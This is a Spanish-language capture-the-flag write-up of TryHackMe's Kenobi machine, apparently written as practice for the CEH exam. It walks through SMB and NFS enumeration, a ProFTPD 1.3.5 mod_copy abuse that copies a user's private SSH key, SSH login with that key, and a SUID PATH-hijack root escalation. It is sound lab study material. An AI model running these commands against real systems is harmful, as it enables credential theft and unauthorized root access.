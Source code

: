 ```yaml
---
layout: post
title: Kenobi | THM Write-Up
description: Write-up de la máquna Kenobi.
tags: [  TryHackMe , seguridad, write-ups ]
---
```


# Indice

1. [Introducción](#intro)

2. [SMB](#smb)

3. [RPC](#rpc)

4. [FTP](#ftp)

5. [Escalada de privilegios](#escalada)


# Introducción <a id="intro"></a>

Hoy quiero practicar un poco la enumeración de servicios vulnerables para repasar un poco conceptos básicos que me servirán para el examen Certified Ethical Hacker v11 que quiero realizar en las próximas semanas.

Para ello voy a trabajar con la máquina `Kenobi` de TryHackMe, ya que, aunque es sencilla, me servirá para afianzar la teoría y recordarla mejor.


# SMB<a id="smb"></a>

El Server Message Block (SMB) es un protocolo generalmente usado por Windows para compartir archivos, impresoras y otros servicios. Por defecto trabaja en el puerto 445, aunque anteriormente trabajaba en el puerto 139, a través de NetBIOS. Las versiones superiores a Windows 2000 cambiaron esto y ya lo hacen a través del 445 y mediante TCP. 

El puerto 445 es uno de los más preciados por tanto para un ataque, porque si el servicio SMB cuenta con alguna vulnerabilidad, puede  permitir que un atacante lea, borre o modifique archivos.

Empezamos escaneando la máquina. La primera pregunta es ¿cuántos puertos hay abiertos? Lo compruebo con nmap

```
nmap -sS -Pn –min-rate=5000 <ipdelamaquina -sV> 
```

Me aparecen 7 puertos abiertos, entre ellos el 445 y el 111. 

En el siguiente ejercicio, nos piden que hagamos un escaneo con el comando. 

```
nmap -p 445 –script=smb-enum-shares.nse,smb-enum-users.nse <ipdelamaquina>
```

El comando nos devuelve 3 carpetas compartidas. Nos conectamos a una de ellas  ( la carpeta anonymous) con smbclient.

```
smbclient //<ipdelamaquina>/anonymous
```

Y vemos un archivo interesante: `log.txt`. Con el comando smbget podemos bajar todo el contenido de la carpeta, ya que en este caso no hay usuario y contraseña. O bien, `get log.txt` también funcionaría en este caso, ya que sólo nos interesa este archivo.

```
smbget -R smb://<ipdelamaquina>/anonymous
```

Si lo abrimos, vemos que log.txt contiene información acerca del FTP y nos indica dónde esta alojada la llave privada ( en /home/kenobi/.ssh/id_rsa).  Hasta ahora, éste es un ejemplo perfecto ( y tal vez poco realista ) de cómo un servicio SMB puede dar acceso a información privilegiada a cualquiera.



# RPC<a id="rpc"></a>

Como hemos visto antes, el puerto 111 está abierto, y si nos fijamos en la versión del servicio nos aparece que es `rpcbind`. Así que toca hablar de RPC.

RPC o Remote Procedure Call se utiliza para distribuir programas. Es decir, un `portmapper` que permite a un cliente conectarse con un endpoint a través del puerto 111. 

Es decir, cualquier servicio que haya corriendo en la máquina y que esté bajo el protocolo RPC se identifica ante rpcbind y le indica bajo qué dirección se encuentra. De hecho si hiciéramos un nmap con la flag -sV  (como he hecho en la primera parte) para ver qué servicios están corriendo veríamos algo como RPC #100000 y RPC #100227 en el puerto 111 y 2049 respectivamente.

En la descripción del ejercicio ya nos indican que el puerto 111 da acceso a un NFS (Network File System) y que éste puede ser enumerado con nmap de la siguiente manera:

```
nmap -p 111 –script=nfs-ls,nfs-statfs,nfs-showmount <ipdelamaquina>
```

Con este comando podemos ver una carpeta `/var` , accesible por otros usuarios. 

Como nota final, cabe decir que generalmente este puerto se filtra mediante un firewall, para evitar que un atacante pueda comprometer los servicios que corren detrás.


# FTP<a id="ftp"></a>

FTP o File Transfer Protocol se utiliza para transferir archivos mediante el protocolo TCP. Corre por defector tras el puerto 21. 

Típicamente, FTP tiene dos canales: un canal que se dedica a los comandos ( y a veces se le conoce como `canal de control`) y otro dedicado a los datos. Lo problemático de FTP es que la información se transmite en texto plano, por lo que es jugoso para cualquier atacante. Además no requiere de autentificación.

En este caso, la versión que se usa de ProFtpd es la 1.3.5 ( lo he visto cuando he realizado el primer escanéo con nmap y la flag -sV).

Si investigamos un poco con 

```
searchsploit proftpd 1.3.5
``` 

Vemos que esta versión tiene una vulnerabilidad conocida llamada `mod_copy_module`, que permite copiar archivos y directorios mediante los comandos SITE CPFR y SITE CPTO.

Podríamos conectarnos a través del comando `ftp` con:

```
ftp <ipdelamaquina>
``` 

Pero como no conocemos la contraseña, no podemos acceder. Así que la solución sería conectarnos a través de `telnet` o bien `netcat`. Como en la descripción del ejercicio utilizan netcat, voy a hacerlo con telnet para variar.

```
telnet <ipdelamaquina> 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

Lo que acabo de hacer es copiar la llave privada de /home/kenobi/.ssh a /var/tmp. ¿Por qué? Porque tal y como aparecía en log.txt, sabemos que el directorio /var es una carpeta compartida. Así que ahora toca montar esta carpeta en nuestra máquina para tener acceso a su contenido y así poder utilizar la llave privada. 

```
mkdir /mnt/kenobi
sudo mount <ipdelamaquina>:/var /mnt/kenobi
```

Con la llave privada en `/mnt/kenobi/tmp` sólo queda copiarla a nuestro escritorio para así poder darle los permisos adecuados y conectarnos a la máquina víctima mediante ssh. 

```
cp /mnt/kenobi/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@<ipdelamaquina>
cat user.txt
```

Y así conseguimos la primera flag.



# Escalada de privilegios<a id="escalada"></a>

Una vez hecho esto nos explican cómo hacer una escalada de privilegios para convertirse en usuario `root`. Se trataría de explotar un binario con privilegios SUID . Para encontrar archivos con privilegios SUID simplemente hay que hacer:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Entre los archivos comunes con este tipo de privilegios, hay que uno que resalta y que no suele estar entre los más frecuentes: `/usr/bin/menu`. Corro el binario con:

```
cd /usr/bin
./menu
```

Y me aparecen 3 opciones:
```
1. status check
2. kernel version
3. ifconfig
```

Si intentamos leer el binario con vim , nos aparece un montón de `@^@^` y cosas por el estilo... no olvidemos que se trata de un binario. 

Pero si lo abro con `strings` puedo leerlo en un formato human-readable. Hay una parte del código que es la que utilizaremos para escalar privilegios:


```
curl -I localhost
uname -r
ifconfig
```


Lo que haremos es aprovechar que estos comandos no tienen /usr/bin delante (ni otro directorio dentro del PATH). Así que añadiremos un archivo que se llame `ifconfig` en la carpeta /tmp. Después añadiremos la carpeta /tmp al PATH y así cuando el programa `menu` busque el comando ifconfig, el sistema lo empezará a buscar en las carpetas que están dentro del PATH. Lo encontrará en la carpeta /tmp y ejecutará lo que haya dentro de ese archivo. ¿Y qué habrá dentro de ese archivo? Un simple comando : `/bin/bash`? 

¿ Y cómo nos permite esto escalar privilegios? Porque el binario que lo está ejecutando tiene privilegios de root, por tanto estaremos abriendo una bash con privilegios de root.

NOTA: En la descripción del lab, se explica lo mismo aunque se ejecuta sobre el comando curl. Yo lo he hecho sobre ifconfig por variar un poco.

```
cd tmp
## creamos la bash en el archivo ifconfig y le asignamos permisos de ejecucción
echo /bin/bash > ifconfig
chmod +x ifconfig

## añadimos la carpeta /tmp al $PATH
export PATH=/tmp:$PATH

## ejecutamos el binario menu
/usr/bin/menu
```

Seleccionamos la opción correspondiente (la 3 en este caso) y seremos root. Sólo queda ir al directorio /root y ver la segunda flag ahí.  
